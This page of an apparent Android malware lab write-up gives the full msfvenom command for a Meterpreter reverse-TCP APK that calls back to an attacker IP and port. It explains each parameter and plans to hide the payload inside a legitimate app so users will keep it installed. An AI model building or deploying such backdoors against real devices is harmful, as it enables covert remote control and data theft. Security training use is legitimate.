

# Payload Creation

This section documents the generation of the Meterpreter reverse TCP payload using msfvenom.

## Payload Generation

### Command Executed

msfvenom -p android/meterpreter/reverse_tcp
LHOST=172.27.33.114
LPORT=4444
-o payload.apk

### Parameter Breakdown

**-p android/meterpreter/reverse_tcp**
- Specifies the Android Meterpreter payload with reverse TCP connection

**LHOST=172.27.33.114**
- Attacker machine IP address (Kali Linux)
- Target device will connect back to this IP

**LPORT=4444**
- Listening port on attacker machine
- Standard Metasploit handler port

**-o payload.apk**
- Output filename for the generated malicious APK

## Payload Characteristics

**Generated APK:**
- File: payload.apk
- Size: ~15-20 KB (standalone Meterpreter payload)
- Package: com.metasploit.stage
- Permissions: INTERNET, ACCESS_NETWORK_STATE, WAKE_LOCK

**Behavior:**
- On launch, connects to 172.27.33.114:4444
- Establishes Meterpreter session
- Waits for commands from attacker

## Why This Payload?

The standalone `payload.apk` is not usable directly because:
- It has no legitimate functionality (user won't keep it installed)
- Appears suspicious (no app icon or recognizable purpose)
- Gets flagged by Google Play Protect

**Solution:** Embed this payload into a legitimate app (next steps).

## Security Note

This payload creates a backdoor into the Android device. In real-world scenarios:
- Antivirus software may detect it
- Google Play Protect blocks installation
- Users should never install APKs from untrusted sources

---

**Next Step:** [03-apk-decompilation](../03-apk-decompilation/)

